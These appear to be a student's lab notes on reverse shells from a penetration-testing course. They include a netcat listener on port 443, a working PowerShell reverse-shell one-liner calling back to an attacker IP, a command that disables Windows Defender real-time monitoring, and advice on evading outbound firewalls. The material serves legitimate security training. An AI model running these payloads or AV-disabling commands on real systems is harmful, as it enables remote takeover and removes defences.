 # Reverse Shells

WITH reverse shell, the attacker box will have a listner running and target will need to initiate the connections

<img width="2101" height="1219" alt="image" src="https://github.com/user-attachments/assets/c22f5fde-f9b0-4f13-819b-06c9616cb7dc" />


this kind of shell ass we come across vulnerable systems because it is likely that an admin will overlook outbound connections,, give us better chance of going undetacted. bind shells in 3rd part was rely on incoming connections alowed through the firewall on the server side.

it will be much harder to pull this real world senario. As seen in image above. we are starting a listner fro a reverse shell on our attack box, it mean our attacker box become the server and the target become the client.

[Reverse shell Cheat Sheet](https://github.com/login?return_to=https%3A%2F%2Fgithub.com%2Fswisskyrepo%2FPayloadsAllTheThings%2Fblob%2Fmaster%2FMethodology%2520and%2520Resources%2FReverse%2520Shell%2520Cheatsheet.md) --- contain the wonderfull resources

## Practice

SERVER (attacker box)

```
NiteshKS22@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

This time around with our listener, we are binding it to a common port (443), this port usually is for HTTPS connections. We may want to use common ports like this because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level. It would be rare to see any security team blocking 443 outbound since many applications and organizations rely on HTTPS to get to various websites throughout the workday. That said, a firewall capable of deep packet inspection and Layer 7 visibility may be able to detect & stop a reverse shell going outbound on a common port because it's examining the contents of the network packets, not just the IP address and port. Detailed firewall evasion is outside of the scope of this module, so we will only briefly touch on detection & evasion techniques throughout the module, as well as in the dedicated section at the end.

Once the Windows target has spawned, let's connect using RDP.

Netcat can be used to initiate the reverse shell on the Windows side, but we must be mindful of what applications are present on the system already. Netcat is not native to Windows systems, so it may be unreliable to count on using it as our tool on the Windows side. We will see in a later section that to use Netcat in Windows, we must transfer a Netcat binary over to a target, which can be tricky when we don't have file upload capabilities from the start. That said, it's ideal to use whatever tools are native (living off the land) to the target we are trying to gain access to.

What applications and shell languages are hosted on the target?

This is an excellent question to ask any time we are trying to establish a reverse shell. Let's use command prompt & PowerShell to establish this simple reverse shell. We can use a standard PowerShell reverse shell one-liner to illustrate this point.

On the Windows target, open a command prompt and copy & paste this command:

CLIENT (target)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

Please take a close look at the command and consider what we need to change for this to allow us to establish a reverse shell with our attack box. This PowerShell code can also be called shell code or our payload. Delivering this payload onto the Windows system was pretty straightforward, considering we have complete control of the target for demonstration purposes. As this module progresses, we will notice the difficulty increases in how we deliver the payload onto targets.

What happened when we hit enter in command prompt?

Client (target)

```
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

The Windows Defender antivirus (AV) software stopped the execution of the code. This is working exactly as intended, and from a defensive perspective, this is a win. From an offensive standpoint, there are some obstacles to overcome if AV is enabled on a system we are trying to connect with. For our purposes, we will want to disable the antivirus through the Virus & threat protection settings or by using this command in an administrative PowerShell console (right-click, run as admin):

### DISABLE AV

```
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Back on our attack box, we should notice that we successfully established a reverse shell. We can see this by the change in the prompt that starts with PS and our ability to interact with the OS and file system. Try running some standard Windows commands to practice a bit.
